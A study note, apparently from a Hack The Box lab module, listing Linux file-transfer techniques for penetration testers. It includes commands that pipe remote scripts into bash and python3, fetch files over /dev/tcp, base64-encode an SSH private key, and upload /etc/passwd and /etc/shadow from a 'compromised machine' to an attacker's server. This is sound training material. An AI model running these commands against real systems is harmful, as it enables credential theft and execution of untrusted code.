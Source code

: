 ```yaml
---
Title: HTB\File_Transfers\Linux
tags:
  - os/linux- cybersec
source: HTB\File_Transfers\Linux
---
```


# HTB\File_Transfers\Linux

> Źródło: `HTB\File_Transfers\Linux`

Base64 encoding

cat id_rsa |base64 -w 0;echo
echo -n '<base64 encoded>' |base64 -d > id_rsa

Using wget
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

using cURL
```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

Because the way linux operates, we can use most of the tools fileless.

Note: Some payloads such as mkfifo write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload chosen it may create temporary files on the OS.

fileless download using curl
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

we can do the same with python file using wget
```bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

Hello World!

There may also be situations where none of the well-known file transfer tools are available.
As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.

Connect to the server:
exec 3<>/dev/tcp/10.10.10.32/80

http get request
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

print the response
cat <&3

```bash
ssh downloads
```

Enabling the ssh server:
```bash
sudo systemctl enable ssh
```text
starting the ssh server
```bash
sudo systemctl start ssh
```bash
checking for ssh listening port
Ovas420@htb[/htb]$ netstat -lnpt

(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -

simple scp file transfer
```bash
scp plaintext@192.168.49.128:/root/myroot.txt .
```

Note: You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.

Upload operations
Using python HTTP.server module

Install uploadserver module
```bash
sudo python3 -m pip install --user uploadserver
```text
Now we need to create a certificate, in this example we are using a self-signed certificate
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.
mkdir https && cd https

starting web server
```bash
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...

Uploading from a compromised machine
```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

we use --insecure because we used a self-signed certificate that we trust

Since many different languagues are usually installed on the linux machines, we can use most of them to upload files from them to our machine
python3
```bash
python3 -m http.server
```

python2.7
python2.7 -m SimpleHTTPServer

PHP
php -S 0.0.0.0:8000

Ruby
ruby -run -ehttpd . -p8000

Download the file from the target machine onto our machine
```bash
wget 192.168.49.128:8000/filetotransfer.txt
```

Note: When we start a new web server using Python or PHP, it's important to consider that inbound traffic may be blocked. We are transferring a file from our target onto our attack host, but we are not uploading the file.

We may find that some companies allow ssh for outbound connections, and if that is the case, we can use ssh server with scp to upload files

```bash
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```

**Powiązane:** [[Graph-Home]] [[OS-Linux]]
